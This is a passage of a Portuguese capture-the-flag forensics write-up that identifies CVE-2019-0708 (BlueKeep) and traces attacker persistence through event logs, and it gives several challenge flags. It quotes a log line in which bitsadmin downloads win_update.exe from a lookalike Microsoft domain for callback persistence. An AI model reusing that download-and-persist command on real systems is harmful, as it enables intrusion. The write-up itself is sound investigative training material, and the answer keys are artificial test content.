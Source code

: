 CVE-2019-0708

A flag então é `YSH{CVE-2019-0708}`

### Investigação - 4
Informe o nome da campanha de ataques utilizando a CVE identificada.

Utilize a informação e dica do challenge anterior para encontrar essa flag.

Formado da flag: `YSH{CAMPANHA}`

#### Investigação - Resolução - 4
Buscando a propria CVE no google conseguimos encontra diversas referencias a campanha comumente chamada de BlueKeep, 
sendo assim a flag resultante é: `YSH{BLUEKEEP}`

### Investigação - 5
Foi detectado no processo de post-exploitation a execução de persistência para acesso na máquina. Identifique a URL usada para callback pela máquina vítima.

Se a resposta for `http://sitemalicioso/arquivomalicioso` a flag terá o seguinte formato: `YSH{http://sitemalicioso/arquivomalicioso}`

#### Investigação - Resolução - 5
Iniciando a investigação aos logs do arquivo chamado eventviewer.txt podemos executar inicialmente um grep afim de encontrar alguma coisa suspeita dentro desses logs:

```shell
grep 'http' eventviewer.txt
```

Com isso podemos notar uma linha contendo a seguinte informação:

```
String: 11               : bitsadmin  /Addfile win_download_update <https://microsoft.windowssafetyupdatexyz.
xyz/win_update.exe> C:\updates\win_update.exe
```

O dominio em questão muito suspeito esta efetuando uma operação de persistencia utilizando o comando bits do windows. 
Neste caso a flag é: `YSH{https://microsoft.windowssafetyupdatexyz.xyz/win_update.exe}`

### Investigação - 6
Aponte o caminho completo do arquivo salvo e executado local para acesso a shell do atacante.

Se a resposta for X:\diretorio1\diretorio2\arquivo.xxx o formato da flag será: `YSH{X:\diretorio1\diretorio2\arquivo.xxx}`

#### Investigação - Resolução - 6
Na propria resolução da flag acima já temos o comando executado contendo o diretório que for armazenado o arquivo malicioso:

`YSH{C:\updates\win_update.exe}`

### Investigação - 7
Indique o último comando executado pelo atacante para executar a persistência.
